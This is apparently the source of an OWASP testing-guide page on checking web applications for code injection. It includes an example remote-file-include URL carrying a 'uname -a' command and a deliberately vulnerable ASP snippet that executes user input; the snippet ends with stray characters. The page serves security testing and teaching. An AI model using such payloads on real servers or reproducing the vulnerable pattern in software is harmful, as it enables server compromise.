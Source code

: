 ```yaml
---

layout: col-document
title: WSTG - Latest
tags: WSTG

---
```


{% include breadcrumb.html %}
# Testing for Code Injection

|ID          |
|------------|
|WSTG-INPV-11|

## Summary

This section describes how a tester can check if it is possible to enter code as input on a web page and have it executed by the web server.

In [Code Injection](https://owasp.org/www-community/attacks/Code_Injection) testing, a tester submits input that is processed by the web server as dynamic code or as an included file. These tests can target various server-side scripting engines, e.g., ASP or PHP. Proper input validation and secure coding practices need to be employed to protect against these attacks.

## Test Objectives

- Identify injection points where you can inject code into the application.
- Assess the injection severity.

## How to Test

### Black-Box Testing

#### Testing for PHP Injection Vulnerabilities

Using the querystring, the tester can inject code (in this example, a malicious URL) to be processed as part of the included file:

`https://www.example.com/uptime.php?pin=https://www.example2.com/packx1/cs.jpg?&cmd=uname%20-a`

> The malicious URL is accepted as a parameter for the PHP page, which will later use the value in an included file.

### Gray-Box Testing

#### Testing for ASP Code Injection Vulnerabilities

Examine ASP code for user input used in execution functions. Can the user enter commands into the Data input field? Here, the ASP code will save the input to a file and then execute it:

```asp
<%
If not isEmpty(Request( "Data" ) ) Then
Dim fso, f
'User input Data is written to a file named data.txt
Set fso = CreateObject("Scripting.FileSystemObject")
Set f = fso.OpenTextFile(Server.MapPath( "data.txt" ), 8, True)
f.Write Request("Data") & vbCrLf
f.close
Set f = nothing
Set fso = Nothing

'Data.txt is executed
Server.Execute( "data.txt" )

Else
%>

<form>
<input name="Data" /><input type="submit" name="Enter Data" />

</form>
<%
End If
%>)))
```

### References

- [Insecure.org](https://insecure.org/)
- [Wikipedia](https://www.wikipedia.org)
- [Reviewing Code for OS Injection](https://wiki.owasp.org/index.php/OS_Injection)
